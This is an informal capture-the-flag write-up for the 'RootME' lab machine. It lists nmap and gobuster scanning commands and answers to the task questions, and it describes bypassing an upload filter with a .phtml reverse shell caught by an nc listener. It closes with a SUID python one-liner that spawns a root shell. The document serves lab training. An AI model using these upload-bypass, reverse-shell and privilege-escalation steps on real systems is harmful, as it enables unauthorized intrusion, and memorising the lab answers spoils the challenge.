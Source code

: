 #RootME Writeup by Rumble ^^ 

#ip= machineip 

#Task1 

Not much in there just suitup and deploy 

#Task2 

`````````
So lets begin with some scans to the ports using nmap $

# Command>>  nmap -sV -sC -oA ./initalscan $ip -Pn

And in thesametime lets run some dir attack using gobuster 

# Command>> gobuster dir -u $ip -w directory-list-lowercase-2.3-medium.txt -o ./buster

`````````
#Questions: on Nmap and gobuster 
  1-  Scan the machine, how many ports are open?  2
  2-  What version of Apache are running? 2.4.29 
  3-  What service is running on port 22? SSH
  5-  What is the hidden directory? /panel/



#Task3 

```````
After we used gobuster we got some dir one of them was /uploads lets use it to get shell. 

So we have to bypass it since we cant upload our php shell 
>> We did it by changing the ext for the reverseshell to <phtml>
>> Now lets start our Revshell using nc 

# Command>> nc -lvvp 7773
# Get stable shell ^^ using any method 

# find / -name user.txt 2>dev/null  to locate the user.txt dir 
```````
#Questions: user.txt flag 
 1- just cat the /var/www/user.txt



#Task4 

``````
Using any PE way we can get root for me I used this command and then head to GTFOBins to see if there is any thing and I found that /usr/bin/python creepy little bit so used google to see if I can get a sudo 

# Command>> python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

`````` 
#Last flag 
 1-  Since you have the root P you can claim it 


^^ 



